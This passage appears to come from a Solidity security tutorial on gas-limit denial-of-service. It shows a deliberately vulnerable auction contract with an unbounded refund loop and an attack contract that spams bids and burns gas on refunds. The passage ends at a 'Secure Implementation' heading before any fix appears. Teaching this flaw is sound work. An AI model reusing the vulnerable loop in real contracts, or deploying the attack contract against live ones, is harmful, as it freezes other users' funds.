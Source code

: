 **Mechanism**: Exploiting EVM's gas limit to prevent contract execution.

```solidity
// VULNERABLE AUCTION CONTRACT
contract VulnerableAuction {
    address[] public bidders;
    mapping(address => uint256) public bids;
    
    function bid() public payable {
        require(msg.value > 0, "Must send ether");
        bidders.push(msg.sender);
        bids[msg.sender] = msg.value;
    }
    
    // VULNERABILITY: Unbounded loop
    function refundAll() public {
        for (uint256 i = 0; i < bidders.length; i++) {
            address bidder = bidders[i];
            uint256 amount = bids[bidder];
            
            (bool success,) = bidder.call{value: amount}("");
            // If any call fails or consumes too much gas, entire function fails
        }
    }
}

// ATTACK CONTRACT
contract GasAttack {
    VulnerableAuction auction;
    
    constructor(address _auction) {
        auction = VulnerableAuction(_auction);
    }
    
    function attack() public payable {
        // Create many bids to make refundAll() exceed gas limit
        for (uint256 i = 0; i < 1000; i++) {
            auction.bid{value: 1 wei}();
        }
    }
    
    // Consume gas when receiving refund
    fallback() external payable {
        uint256 waste;
        for (uint256 i = 0; i < 10000; i++) {
            waste += i;
        }
    }
}
```

**Secure Implementation**:
